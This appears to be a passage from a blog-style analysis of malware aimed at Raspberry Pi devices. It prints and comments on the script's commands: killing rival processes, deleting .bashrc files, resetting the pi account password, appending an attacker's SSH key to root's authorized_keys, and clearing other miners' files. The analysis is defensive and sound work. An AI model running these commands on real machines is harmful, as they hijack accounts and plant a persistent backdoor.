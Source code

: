 ```bash
killall perl
```
The script then kills the processes shown above. `zmap`, a network scanner, seems reasonable to stop (with malicious intent), but I'm not sure why the attacker chose to stop the others, which are oddly specific. Perhaps to save resources?

### Cleaning Bash Profiles; Changing Account Password

```bash
echo "127.0.0.1 bins.deutschland-zahlung.eu" >> /etc/hosts # Classic malicious domain
rm -rf /root/.bashrc # Clearing Bash customization from the root account
rm -rf /home/pi/.bashrc # Clearing Bash customization from the... pi account? Raspberry Pi?

# Changing the password of the pi account (encrypted)
usermod -p \$6\$vGkGPKUr\$heqvOhUzvbQ66Nb0JGCijh/81sG1WACcZgzPn8A0Wn58hHXWqy5yOgTlYJEbOjhkHD0MRsAkfJgjU/ioCYDeR1 pi
```

This section provides some much-needed insight: the assumption of the `pi` account implies that this script must be designed for use on Raspberry Pi devices! This may also explain killing the processes above — Node, for example, is a common application run on Rasberry Pi computers for development work.

### Injecting SSH key

```bash
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D6s4J0L7XV2kep0rNzgY1S1IdE8HDef7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B"  >> /root/.ssh/authorized_keys
```
Here's another interesting section — the script appends the public SSH key of the attacker to provide for remote access! Let this serve as a reminder to always audit `authorized_keys`. Google, for example, prevents this attack from occurring on their Cloud Compute VMs by running a service that periodically resets `authorized_keys` to a version that only includes keys explicitly defined in the VM metadata.

### Removing Malware?

```bash
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
rm -rf /tmp/ktx*
rm -rf /tmp/cpuminer-multi
rm -rf /var/tmp/kaiten
```

As far as I can tell, the directories removed in the code above belong to (potentially malicious) crypto miners. Therefore, it seems that this malware is cleaning up the processes of other malware. How kind of the script author.

The DNS entry ensures connectivity to the attacker by using a common host (Google). This malware otherwise would might not function on networks such as my own, as I run a personal DNS server with many malicious and otherwise undesired domains blocked.
